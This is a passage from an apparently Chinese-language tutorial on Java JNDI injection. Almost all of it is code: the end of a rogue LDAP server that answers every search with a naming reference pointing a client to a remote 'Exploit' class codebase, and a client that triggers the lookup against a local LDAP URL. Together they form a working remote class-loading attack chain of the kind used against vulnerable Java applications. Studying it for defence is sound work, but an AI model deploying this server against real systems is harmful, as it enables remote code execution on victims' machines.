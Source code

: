 ```java
        }


        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */
        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }

        }


        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference");
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}

```

客户端就是把rmi改成ldap即可：

```java
package com.feng.jndi;

import javax.naming.Context;
import javax.naming.InitialContext;

public class LdapClient {
    public static void main(String[] args) throws Exception {
        String url = "ldap://127.0.0.1:39654/feng";
        Context context = new InitialContext();
        context.lookup(url);
    }
}

```
